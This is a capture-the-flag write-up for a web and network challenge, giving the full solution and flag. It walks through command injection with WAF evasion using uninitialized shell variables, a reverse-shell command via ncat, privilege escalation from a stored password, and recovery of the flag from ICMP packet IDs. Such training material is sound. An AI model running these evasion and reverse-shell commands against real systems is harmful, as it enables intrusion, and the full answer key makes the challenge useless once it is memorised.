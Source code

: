 # Knock-Knock! Anyone There?
### Category: Networks
### Author: Delara (lara)

## Description
We've heard one of the prisoners of omni was working on a website before omni got to them. We suspect the website is quite buggy as it was still under development. Do you think you can break it?

## Hints
1. Have you looked at robots.txt?
2. Can you evade web application firewalls?

## Solution
1. Looking through the website you would notice that there is a box and a button called 'run'. The name of the box is also called 'command' which hints at you having the ability to run system commands on the server that's hosting this website.
2. Running 'ls' would give you all the files in the directory and of interest is the 'CHANGELOG' file. 
3. You could also look at robots.txt to get directed to this file. 
4. Looking through this file, we gain two valuable pieces of information,
   1. There is some proxy server running on the local network at '172.16.238.30'
   2. This website has Modsecurity firewall set up with CRS but one particular rule is excluded. 
5. Now it's time to explore and see what commands we can and we cannot run.
6. After exploring, you would be able to figure out you can run "dangerous" commands using uninitialized variables. 
7. With this you can run this command 'cat /etc$u/passwd$u' to print '/etc/passwd'
8. Furthermore, you can get reverse shell access using this command 'ncat$u <ip> <port> -e /bin$u/bash$u' (note that this is one of the many ways you could have gotten a reverse shell)
9. Once you get a reverse shell, you will the user 'www-data'. Exploring the box, you will find that there is a file called 'message.txt' in the user's 'sappheiros' home directory but you don't have permission to read this file. So you somehow need to escalate your privilege. 
10. In the '/opt/backup' directory there is a file called 'cGFzc3dvcmQ' which contains the user's password
11. Running 'su sappheiros' and giving it the password you found will make you the user
12. Now that you have access to the home directory you should be able to read the file and the content is 'part 1: magpie{y0u_h4v3_7h3_'. This is the first part of the flag.
13. We now need to explore the box more to figure out what the second part of the flag is. 
14. Given the content of '/etc/passwd' and 'etc/group' you will be able to figure out that the current user can run 'tcpdump' commands. 
15. Looking back at the CHANGELOG file you would guess that you need to listen for connections coming from that ip
16. Trying on a few 'tcpdump' methods, you will find that 'tcpdump -A host 172.16.238.30' will give you the information you need.
17. Examining the ICMP packets being sent, you will find that there is a message being formed that read like this 
'''
"Hello there! If you are reading this it means you have already broken into my server. Omniflags got to me before I could finish the implementation. Thus why you could probably break into it. I suddenly remembered this website I was working on and thought it would be a good way to send a message. Who knows maybe someone actually finds a way to break into my server. I'm sending this message as a secret just in case they find out what I have done. The flag is the only way to get me out of here so I really hope you find it. It's hidden in these messages but I can't tell you where in case they read these messages. You're close! Keep looking! Best of luck!
'''
18.  This hints that the rest of the flag in these packets. Examining the packets again more carefully, you will find that the id for the packets are all ascii numbers. 
19.  You now have to convert all the id's to ascii characters and this will give you the rest of the flag. (note that each packet gets sent and received and so you only need to count the id once)
20.  The beginning and the end of the id's are marked by the 'Hello There!' and the 'Best of luck!' messages respectively. 

### References
WAF evasion techniques: 

https://medium.com/secjuice/waf-evasion-techniques-718026d693d8 

https://medium.com/secjuice/web-application-firewall-waf-evasion-techniques-2-125995f3e7b0

https://www.secjuice.com/web-application-firewall-waf-evasion/

Hiding data in an ICMP packet:

https://www.researchgate.net/figure/An-ICMP-packet-carrying-a-hidden-message_fig3_268401309 

## Flag
`magpie{y0u_h4v3_7h3_p0w32_70_54v3_7h3_w021d}`
